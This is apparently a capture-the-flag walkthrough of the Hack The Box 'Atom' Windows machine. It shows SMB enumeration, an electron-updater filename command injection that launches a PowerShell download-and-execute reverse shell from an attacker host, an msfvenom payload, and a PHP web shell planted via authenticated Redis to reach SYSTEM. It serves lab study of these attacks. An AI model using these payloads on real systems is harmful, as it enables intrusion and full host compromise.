

# Atom @ 10.10.237

## Enumeration

First an nmap scan

```
$ nmap -v -sV 10.10.10.237 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 22:49 CEST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 22:49
Scanning 10.10.10.237 [2 ports]
Completed Ping Scan at 22:49, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:49
Completed Parallel DNS resolution of 1 host. at 22:49, 0.01s elapsed
Initiating Connect Scan at 22:49
Scanning 10.10.10.237 [1000 ports]
Discovered open port 80/tcp on 10.10.10.237
Discovered open port 135/tcp on 10.10.10.237
Discovered open port 445/tcp on 10.10.10.237
Discovered open port 443/tcp on 10.10.10.237
Completed Connect Scan at 22:49, 4.00s elapsed (1000 total ports)
Initiating Service scan at 22:49
Scanning 4 services on 10.10.10.237
Completed Service scan at 22:49, 12.21s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.10.237.
Initiating NSE at 22:49
Completed NSE at 22:49, 0.33s elapsed
Initiating NSE at 22:49
Completed NSE at 22:49, 0.23s elapsed
Nmap scan report for 10.10.10.237
Host is up (0.030s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.25 seconds
```

A windows machine with filesharing running an Apache server.

The website allows us to download an application from https://10.10.10.237/releases/heed_setup_v1.0.0.zip

Before diving into the downloaded application, first take a look at the SMB share

```
$ smbclient -L \\\\10.10.10.237         
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Software_Updates Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.237 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

A share Software_Updates share is present.

```
$ smbclient \\\\10.10.10.237\\Software_Updates    
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 23:01:38 2021
  ..                                  D        0  Mon Apr 19 23:01:38 2021
  client1                             D        0  Mon Apr 19 23:01:38 2021
  client2                             D        0  Mon Apr 19 23:01:38 2021
  client3                             D        0  Mon Apr 19 23:01:38 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 13:18:08 2021

                4413951 blocks of size 4096. 1362301 blocks available
smb: \> ls client1\
  .                                   D        0  Mon Apr 19 23:01:38 2021
  ..                                  D        0  Mon Apr 19 23:01:38 2021

                4413951 blocks of size 4096. 1361493 blocks available
smb: \> ls client2\
  .                                   D        0  Mon Apr 19 23:01:38 2021
  ..                                  D        0  Mon Apr 19 23:01:38 2021

                4413951 blocks of size 4096. 1361492 blocks available
smb: \> ls client3\
  .                                   D        0  Mon Apr 19 23:01:38 2021
  ..                                  D        0  Mon Apr 19 23:01:38 2021

                4413951 blocks of size 4096. 1361492 blocks available
smb: \> get UAT_Testing_Procedures.pdf
getting file \UAT_Testing_Procedures.pdf of size 35202 as UAT_Testing_Procedures.pdf (237.1 KiloBytes/sec) (average 237.1 KiloBytes/sec)
smb: \> put test.x
putting file test.x as \test.x (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Mon Apr 19 23:06:48 2021
  ..                                  D        0  Mon Apr 19 23:06:48 2021
  client1                             D        0  Mon Apr 19 23:06:43 2021
  client2                             D        0  Mon Apr 19 23:06:43 2021
  client3                             D        0  Mon Apr 19 23:06:43 2021
  test.x                              A        0  Mon Apr 19 23:06:48 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 13:18:08 2021

                4413951 blocks of size 4096. 1361219 blocks available
smb: \> 
```

We got the pdf and confirmed that we can upload a file. The pdf mentions

> We follow the below process before releasing our products.
> 
> 1. Build and install the application to make sure it works as we expect it to be.
> 2. Make sure that the update server running is in a private hardened instance. To initiate the QA process, just place the updates in one of the "client" folders, and the appropriate QA team will test it to ensure it finds an update and installs it correctly.
> 3. Follow the checklist to see if all given features are working as expected by the developer.

This suggests that if we upload a file to the SMB share, that someone might run it.

Lets look at the setup file inside the downloaded zip. Opening the exe with a archive manager shows that it contains a $PLUGINSDIR which contains a 7z archive with the electron app


The app-64.7z archive contains the resources folder with the actual code of the app in the file app.asar. The file app-update.yml contains a new address:


```
$ cat app-update.yml
provider: generic
url: 'http://updates.atom.htb'
publisherName:
  - HackTheBox
```

The adres shows nothing new. However, there is some good news: https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

## Exploitation

Electron update tries to read /latest.yml on the update server, and lets assume that the clientx folders are hosting the update files. From the link we know that we can inject a command in to the filename. Because it also has to pass as an URL there are some limitations. To get arround those, work in base64. We are going to call powershell with the command in base64 encoding to fetch and run a reverse shell.

```
pwsh> $s = "iex(iwr http://10.10.14.22/revshel4444.ps1 -useb)"
pwsh> [convert]::ToBase64String([system.text.encoding]::Unicode.GetBytes($s)) 
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=
```

With revshel4444.ps1 a powershell reverse shell connecting back on port 4444

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f psh -o rev4444.ps1       
```

Create a file with Something as content and a filename which has the vulnerability in it

```
$ echo "Something" > "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
```

And get the base64 encoding of the SHA512 of the file

```
$ shasum -a 512 "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe" | cut -d " " -f1 | xxd -r -p | base64 
otVi427RYTHM7rC72XSPdQp69V789nYNoAj4FBBQfW5wp5ouQ3ARugP+HKeC+JbmoaCqznU2XIC0h44p05tSsQ==
```

Create a latest.yml pointing to this file with the obtained hash and a new version number
```
$ cat latest.yml      
version: 1.1.0
path: "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
sha512: otVi427RYTHM7rC72XSPdQp69V789nYNoAj4FBBQfW5wp5ouQ3ARugP+HKeC+JbmoaCqznU2XIC0h44p05tSsQ==
releaseDate: '2021-04-20T11:17:02.627Z'
```

Start a  httpserver hosting the reverse shell and a netcat listener on port 4444 to catch the reverse shell. 

```
$ sudo httpserver
$ nc -nlvp 4444
```

Upload both files to the client1 folder and wait

```
$ smbclient \\\\10.10.10.237\\Software_Updates
smb: \> cd client1
smb: \client1\> put "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
putting file u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe as \client1\u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe (0.1 kb/s) (average 0.1 kb/s)
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (3.7 kb/s) (average 1.9 kb/s)
smb: \client1\> 
```

And now we wait... And there we go!


## More enumeration

No services without quotes, no obvious vulnerabilities (at the time). Program files shows that redis is installed

```powershell
PS C:\> cd "Program Files"
PS C:\Program Files> gci


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          4/1/2021   4:50 AM                Common Files                                                         
d-----         3/31/2021  12:49 PM                CUAssistant                                                          
d-----         12/7/2019   1:50 AM                Internet Explorer                                                    
d-----          4/2/2021   7:38 PM                Microsoft Update Health Tools                                        
d-----         12/7/2019   1:14 AM                ModifiableWindowsApps                                                
d-----         3/31/2021   2:35 AM                nodejs                                                               
d-----         4/20/2021  12:08 AM                Redis                                                                
d-----          4/1/2021   7:49 PM                rempl                                                                
<snip>
```

View it's logfile

```
PS C:\Program Files\redis\Logs> type redis_log.txt
[3888] 02 Apr 07:31:08.779 * Redis 3.0.504 (00000000/0) 64 bit, standalone mode, port 6379, pid 3888 ready to start.
[3888] 02 Apr 07:31:09.029 # Server started, Redis version 3.0.504
[3888] 02 Apr 07:31:09.029 * The server is now ready to accept connections on port 6379
```

Running op port 6379. Verify it is running on its default port 3679:

```
PS C:\Program Files\redis> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2588
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       928
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       2588
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5680
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:6379           0.0.0.0:0              LISTENING       1832
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4460
  TCP    0.0.0.0:8081           0.0.0.0:0              LISTENING       7980
  ```

Excellent. Let's forward this port back to Kali so we can access it with a redis client. 

Start chisel server on kali
```
$ sudo chisel/1.7.3/chiselx64 server -p 3636 -reverse
[sudo] password for kali: 
2021/04/20 16:51:38 server: Reverse tunnelling enabled
2021/04/20 16:51:38 server: Fingerprint oFkUNH2YW0dqSbHy4OsE/A6XWJHxPc22SKFX03lOXt4=
2021/04/20 16:51:38 server: Listening on http://0.0.0.0:3636
2021/04/20 16:52:20 server: session#1: tun: proxy#R:6379=>6379: Listening
```

Download chisel and connect to server
```
PS C:\Users\jason> iwr http://10.10.14.22:8080/chisel/1.7.3/chisel64.exe -out chisel.exe -useb
PS C:\Users\jason> start-process "chisel.exe" "client 10.10.14.22:3636 R:6379:127.0.0.1:6379"
```

Get Redis client
```
$ sudo apt-get install redis-tools

$ redis-cli  
127.0.0.1:6379> config get *
(error) NOAUTH Authentication required.
```

That would have been too easy. Which config file is in use?

```
PS C:\Program Files\redis> wmic service get name,pathname,displayname,startmode,startname | findstr /i redis
Redis                                                                               Redis                                     "C:\Program Files\Redis\redis-server.exe" --service-run "C:\Program Files\Redis\redis.windows-service.conf"  Auto       NT AUTHORITY\NETWORKSERVICE  

PS C:\Program Files\redis> type redis.windows-service.conf | findstr /i pass
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# Require clients to issue AUTH <PASSWORD> before processing any other
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
```

> Password `kidvscat_yes_kidvscat`

Redis is running as networkservice, so probably has so proper writing rights on the disk. We can use it to write files to the webserver, which can then be executed by Apache. 

```
PS C:\WINDOWS\system32> wmic service get name,pathname,displayname,startmode,startname | findstr /i apache
Apache2.4                                                                           Apache2.4                                 "C:\xampp\apache\bin\httpd.exe" -k runservice                                                                Auto       LocalSystem 
```

Apache is part of XAMPP and is running as system! So lets get to work:

Create files in the webroot of xampp. 

```
127.0.0.1:6379> AUTH kidvscat_yes_kidvscat
OK
127.0.0.1:6379> config set dir c:\\xampp\\htdocs
OK
127.0.0.1:6379> config set dbfilename "test.html"
OK
127.0.0.1:6379> config set dbfilename "shell.php"
OK
127.0.0.1:6379> set test "<?php system($_GET['cmd']); ?>"
OK
127.0.0.1:6379> save
OK
```

Does it work?

```
$ curl http://atom.htb/shell.php?cmd=ipconfig --output -
REDIS0006�test
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::8487:286c:d24a:a6f7
   Temporary IPv6 Address. . . . . . : dead:beef::a5cd:42d6:3dc3:e51c
   Link-local IPv6 Address . . . . . : fe80::8487:286c:d24a:a6f7%6
   IPv4 Address. . . . . . . . . . . : 10.10.10.237
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:c05b%6
                                       10.10.10.2
����$ɸ�       

$ curl http://atom.htb/shell.php?cmd=whoami --output -
REDIS0006�testnt authority\system
����$ɸ�   
```

Excellent! Use it to fire up a new reverse shell.

```
pwsh> $s = "iex(iwr http://10.10.14.22/revshel4455.ps1 -useb)"
pwsh> [convert]::ToBase64String([system.text.encoding]::Unicode.GetBytes($s))
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANQA1AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=

$ curl --output - http://atom.htb/shell.php?cmd=powershell%20-encodedcommand%20aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANQA1AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=
```

Start an nc listener and get root

